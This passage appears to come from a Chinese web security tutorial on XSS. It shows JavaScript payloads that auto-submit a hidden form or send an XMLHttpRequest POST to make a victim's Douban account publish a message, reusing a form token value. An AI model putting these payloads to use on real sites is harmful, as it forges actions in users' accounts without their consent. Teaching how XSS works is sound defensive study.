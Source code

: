 再看一个复杂点的例子。如果网站应用者接受POST请求，那么攻击者如何实施XSS攻击呢？
下例是Douban的一处表单。攻击者将通过JavaScript发出一个POST请求，提交此表单，最终发出一条新的消息。在正常情况下，发出一条消息，浏览器发的包是：
Douban上发新消息的请求包
要模拟这一过程，有两种方法。第一种方法是，构造一个form表单，然后自动提交这个表单：

```
var f = document.createElement("form");
f.action = "";
f.method = "post";
document.body.appendChild(f);

var i1 = document.createElement("input");
i1.name = " ck";
i1.value = " JiUY";
f.appendChild(i1);

var i2 = document.createElement("input");
i2.name = " mb_text";
i2.value = "testtesttest";
f.appendChild(i2);

f.submit();

```
如果表单的参数很多的话，通过构造DOM节点的方式，代码将会非常冗长。所以可以直接写HTML代码，这样会使得整个代码精简很多，如下所示：var dd = document.createElement("div");


```
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name="mbform">'+
'<input type="hidden" value="JiUY" name="ck" />'+
'<input type="text" value="testtesttest" name="mb_text" />'+
'</form>'

document.getElementById("xssform").submit();

```

自动提交表单成功：
通过表单自动提交发消息成功
第二种方法是，通过XMLHttpRequest发送一个POST请求：

```
var url = "http://www.douban.com";
var postStr = "ck=JiUY&mb_text=test1234";
var ajax = null;
if(window.XMLHttpRequest){
    ajax = new XMLHttpRequest();
   }
else if(window.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
   }
else{
    return;
   }

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function(){
    if (ajax.readyState == 4 && ajax.status == 200){
           alert("Done!");
        }
  }

```